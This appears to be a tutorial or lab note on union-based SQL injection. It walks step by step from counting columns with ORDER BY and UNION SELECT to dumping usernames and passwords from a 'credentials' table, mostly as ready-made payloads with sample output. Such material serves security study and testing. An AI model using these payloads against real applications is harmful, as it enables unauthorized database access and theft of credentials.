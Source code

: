 Union-based SQL Injection allows attackers to extract data by combining results from multiple queries using the `UNION` operator.

---
## **1. Detecting the Number of Columns**

Before performing a **Union-based injection**, we need to determine how many columns exist in the target query. There are **two methods** to do this:

### **Method 1: Using ORDER BY**

1. Start with `ORDER BY 1` and keep increasing the number until an error occurs.
2. The last successful number before an error indicates the **total number of columns**.

**Example Queries:**
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -  (Error: Unknown column '5' in 'order clause')
```

**Conclusion:**  
Since `ORDER BY 4` worked but `ORDER BY 5` caused an error, the table has **4 columns**.

---
### **Method 2: Using UNION**

1. Start with a `UNION SELECT` query with a guessed number of columns.
2. If an error occurs (`The used SELECT statements have a different number of columns`), increase the number until the query works.

**Example Queries:**
```sql
cn' UNION SELECT 1,2,3-- -  (Error: Column mismatch)
cn' UNION SELECT 1,2,3,4-- -  (Success: Returns values)
```

**Conclusion:**  
The query worked with **4 columns**, confirming the number of columns.

---
## **2. Identifying Visible Columns**

Even though the query may return multiple columns, **not all of them may be displayed** on the page. It is important to find **which columns print data to the page**.

1. Use the **numbered payload** (e.g., `UNION SELECT 1,2,3,4`).
2. Observe which numbers appear in the web application’s output.

**Example Output:**

- The web application displays: `2, 3, 4`
- **Column 1 is not displayed**, meaning **injections should be placed in columns 2, 3, or 4**.

---
## **3. Testing Data Extraction**

Once we know which columns are displayed, test extracting **database information** using known SQL functions.

**Example: Getting the Database Version**
```sql
cn' UNION SELECT 1,@@version,3,4-- -
```
Output:
```sql
10.3.22-MariaDB-1ubuntu1, 3, 4
```
- This confirms that column **2 prints output**, making it a good place to extract data.

---

## **4. Practical Union Injection Workflow**

**Step 1: Find the Number of Columns**
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -  (Error)
```
→ **Total columns: 4**

**Step 2: Check Which Columns Are Visible**
```sql
cn' UNION SELECT 1,@@version,3,4-- -
```
→ **Columns displayed: 2, 3, 4**  
(Do not use column 1 for injection, as it is hidden.)

**Step 3: Extract Database Version**
```sql
cn' UNION SELECT 1,@@version,3,4-- -
```
→ **Output:** `10.3.22-MariaDB-1ubuntu1`

**Step 4: Extract Database Name**
```sql
cn' UNION SELECT 1,database(),3,4-- -
```
→ **Output:** `ilfreight`

**Step 5: Extract Database Names**
```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
→ **Output:** `ilfreight`, `dev`

**Step 6: Extract Table Names**
```sql
cn' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='dev'-- -
```
→ **Output:** `credentials, framework, pages, posts`

**Step 7: Extract Column Names from a Table**
```sql
cn' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='credentials'-- -
```
→ **Output:** `username, password`

**Step 8: Dump Data from Table**
```sql
cn' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -
```
→ **Output:**
```
admin | hashed_password  
dev_admin | hashed_password  
api_key | hashed_value
```
